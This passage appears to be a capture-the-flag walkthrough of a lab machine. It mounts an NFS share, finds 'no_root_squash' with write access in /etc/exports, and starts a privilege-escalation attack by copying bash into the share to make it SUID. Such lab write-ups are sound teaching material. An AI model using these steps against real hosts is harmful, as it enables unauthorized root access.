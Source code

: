 Now i'll mount the share

```
┌──(mark__haxor)-[/mnt]
└─$ showmount -e 192.168.66.216
Export list for 192.168.66.216:
/srv/share localhost                                                                                                                                                                                                             
┌──(mark__haxor)-[/mnt]
└─$ sudo mount -t nfs 192.168.66.216:/srv/share mount -o nolock                                                                                                                                                                                                                 
┌──(mark__haxor)-[/mnt]
└─$ ls mount -la
total 8
drwxrwxrwx 2 root root 4096 May 18  2022 .
drwxr-xr-x 3 root root 4096 Jan 23 19:31 ..
                                                                                                                                                        
```

Now we have access to the share 

So lets check the target maybe there's nfs misconfiguration 

```
liam@lunar:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/srv/share localhost(rw,sync,no_root_squash)
```

From the result we see `no_root_squash` is enabled also `read&write` access is enabled

With `no_root_squash` enabled we can exploit this box by uploading a binary which has `suid` perm set on it then run it on the target

So lets get this done xD

On the target we do:

```
liam@lunar:~$ cd /srv/share
liam@lunar:/srv/share$ ls
liam@lunar:/srv/share$ cp /usr/bin/bash .
liam@lunar:/srv/share$ ls -al
total 1164
drwxrwxrwx 2 root root    4096 Jan 23 18:40 .
drwxr-xr-x 3 root root    4096 May 18  2022 ..
-rwxr-xr-x 1 liam liam 1183448 Jan 23 18:40 bash
liam@lunar:/srv/share$ 
```
